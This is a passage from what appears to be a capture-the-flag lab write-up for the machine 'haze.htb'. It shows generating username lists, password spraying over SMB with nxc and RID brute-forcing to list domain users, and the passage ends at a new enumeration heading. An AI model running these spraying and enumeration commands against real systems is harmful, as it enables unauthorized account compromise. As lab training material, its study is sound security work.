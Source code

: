 We don't know the username format, so let's generate a username list with `username-anarchy`.

```bash
username-anarchy Paul Taylor > paul.txt
```

### Password Spraying

Launch password spraying with `nxc`.

```bash
> nxc smb haze.htb -u paul.txt -p '<password>' --no-bruteforce --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
...
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:<password>
...
```

`paul.taylor` is the valid username.

# Auth as paul.taylor

## Users

It's worth trying another password spraying attack, but with valid usernames. Somehow, I can't get the users list with `--users` option, so I will use `--rid-brute` instead.

```bash
nxc smb haze.htb -u 'paul.taylor' -p '<password>' --rid-brute | awk '{print $6, $7, $8}' | cut -d "\\" -f 2 | grep SidTypeUser | sed 's/(Sid.*//g' > users.txt
```

## Password Spraying

Launch another password spraying attack.

```bash
> nxc smb haze.htb -u users.txt -p '<password>' --no-bruteforce --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
...
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:<password>
SMB         10.10.11.61     445    DC01             [+] haze.htb\mark.adams:<password>
...
```

It works for `mark.adams` as well.

# Auth as mark.adams

## Enumeration
